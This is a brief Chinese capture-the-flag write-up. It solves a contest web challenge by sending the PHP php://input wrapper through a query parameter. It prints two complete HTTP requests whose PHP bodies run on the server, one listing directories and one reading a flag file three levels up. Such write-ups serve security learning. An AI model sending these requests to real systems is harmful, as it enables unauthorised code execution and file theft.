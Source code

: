 79:网络安全实验室欢迎你

​	把题目丢给copilot,它告诉我们可以用php伪协议的方式传入并执行一个php文件.于是我们构造请求包如下:

```php
GET /?网[安][实][验][室][欢][迎][你]=php://input HTTP/1.1
Host: contest.ctf.nefu.edu.cn:11451
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

<?php
$dir = "..";
$files = scandir($dir);
foreach($files as $file) {
    echo $file . "\n";
}
?>

```

​	让网页告诉我们上级目录有什么.结果,并没有flag.于是我们继续上级目录回溯,最终在../../../flag这里找到了flag.

​	于是我们继续询问copilot,最终构造请求包如下:

```php
GET /?网[安][实][验][室][欢][迎][你]=php://input HTTP/1.1
Host: contest.ctf.nefu.edu.cn:33363
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 110

<?php
$filename = "../../../flag";
if (file_exists($filename)) {
    echo file_get_contents($filename);
} else {
    echo "File not found.";
}
?>
```

​	得到flag